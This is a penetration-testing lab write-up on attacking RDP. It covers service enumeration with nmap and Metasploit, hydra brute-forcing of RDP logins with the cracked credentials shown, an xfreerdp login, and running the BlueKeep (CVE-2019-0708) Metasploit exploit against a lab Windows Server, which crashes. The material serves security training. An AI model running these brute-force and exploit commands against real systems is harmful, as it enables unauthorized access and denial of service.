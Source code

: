 # 🔬RDP

## Lab 1

> 🔬 [Windows: Insecure RDP Service](https://attackdefense.com/challengedetails?cid=1957)
>
> * Target IP: `10.4.18.131`
> * **RDP** exploitation
> * Dictionaries to use:
>   * `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   * `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`

### Enumeration

```bash
nmap -sV 10.0.17.61
```

```bash
Starting Nmap 7.70 ( https://nmap.org ) at 2024-06-30 17:54 IST
Nmap scan report for 10.0.17.61
Host is up (0.0021s latency).
Not shown: 992 closed ports
PORT      STATE SERVICE        VERSION
135/tcp   open  msrpc          Microsoft Windows RPC
139/tcp   open  netbios-ssn    Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3333/tcp  open  ssl/dec-notes?
49152/tcp open  msrpc          Microsoft Windows RPC
49153/tcp open  msrpc          Microsoft Windows RPC
49154/tcp open  msrpc          Microsoft Windows RPC
49155/tcp open  msrpc          Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 109.33 seconds
```

{% hint style="info" %}
RDP can be configured to run on another port instead of the default port
{% endhint %}

> Port 3333 instead of port 3339 is open but no service due to port is not assigned to any services.

* Use Metasploit [rdp\_scanner](https://www.rapid7.com/db/modules/auxiliary/scanner/rdp/rdp\_scanner/) module to check if port `3333` is running RDP.
* Useful when performing black-box penetration test

```bash
msf5 > search rdp_scanner

Matching Modules
================

   #  Name                               Disclosure Date  Rank    Check  Description
   -  ----                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/rdp/rdp_scanner                   normal  No     Identify endpoints speaking the Remote Desktop Protocol (RDP)
```

<pre class="language-bash"><code class="lang-bash">msf5 > use auxiliary/scanner/rdp/rdp_scanner
msf5 auxiliary(scanner/rdp/rdp_scanner) > set RHOSTS 10.0.17.61
<strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > set RPORT 3333 # default port 3389
</strong>msf5 auxiliary(scanner/rdp/rdp_scanner) > run
</code></pre>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>RDP Detected</p></figcaption></figure>

> The RDP is running on target port `3333`

### RDP Brute Force

* Use hydra to find the valid `username` and `password` by using the dictionary wordlists

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_password.txt
```

{% hint style="warning" %}
Make sure to adjust the speed when performing the real world penetration test using `-t <default 16>` to prevent Denial of Services (DOS) or crashing the `Windows` system.
{% endhint %}

```bash
sts/unix_passwords.txt rdp://10.0.17.61 -s 3333
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-30 18:12:55
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 7063 login tries (l:7/p:1009), ~1766 tries per task
[DATA] attacking rdp://10.0.17.61:3333/
[3333][rdp] host: 10.0.17.61   login: sysadmin   password: samantha
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: demo   password: victoria
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: auditor   password: elizabeth
[ERROR] freerdp: The connection failed to establish.
[3333][rdp] host: 10.0.17.61   login: administrator   password: qwertyuiop
[ERROR] freerdp: The connection failed to establish.
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-06-30 18:13:35
```

<figure><img src="../../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

* In this case, `freerdp` cannot be used in this lab, the only RDP client that can be used is `xfreerdp`.

```bash
xfreerdp  /u:Administrator /p:qwertyuiop /v:10.0.17.61:3333
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
Flag: `port-number-3333`
{% endhint %}

***

## Lab 2 - Blue Keep

> 🔬 **Extra Lab**
>
> Setup a vulnerable _Windows 2008 R2 Virtual Machine_ and connected it to the same network of the Kali virtual machine.
>
> * Host system: `Kali Linux`
> * Target system: `Windows Server 2008 R2`&#x20;
> * Target IP: `192.168.42.139`&#x20;
> * Local IP: `192.168.42.132`
> * Exploitation tool:
> * Vulnerability: [CVE-2019-0708 - BlueKeep](https://nvd.nist.gov/vuln/detail/CVE-2019-0708)

{% hint style="danger" %}
Targeting Kernel space memory and apps can cause system crashes.
{% endhint %}

### Enumeration

```bash
nmap -sV -sC 192.168.42.139 -Pn   
```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 22:36 +08
Nmap scan report for 192.168.42.139
Host is up (0.0029s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
445/tcp   open  microsoft-ds       Windows Server 2008 R2 Standard 7600 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Domain_Name: WIN-8M9K4MEH6MB
|   NetBIOS_Computer_Name: WIN-8M9K4MEH6MB
|   DNS_Domain_Name: WIN-8M9K4MEH6MB
|   DNS_Computer_Name: WIN-8M9K4MEH6MB
|   Product_Version: 6.1.7600
|_  System_Time: 2024-07-04T14:37:17+00:00
| ssl-cert: Subject: commonName=WIN-8M9K4MEH6MB
| Not valid before: 2024-07-03T14:36:09
|_Not valid after:  2025-01-02T14:36:09
|_ssl-date: 2024-07-04T14:37:57+00:00; 0s from scanner time.
49154/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows
```

<figure><img src="../../../../../.gitbook/assets/image (23) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> RDP port 3389 is opened.

* Run `metasploit` auxiliary module to check the target expose to the BlueKeep vulnerability or not.

```bash
msfconsole
msf6 > search bluekeep
msf6 > use 0
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > set RHOSTS 192.168.42.139
msf6 auxiliary(scanner/rdp/cve_2019_0708_bluekeep) > run
```

<figure><img src="../../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> The target is vulnerable

### Exploitation

```bash
msf6 > use 3
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > show targets
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set target 5
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.42.139
msf6 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```

<figure><img src="../../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

> And boom it crashed&#x20;







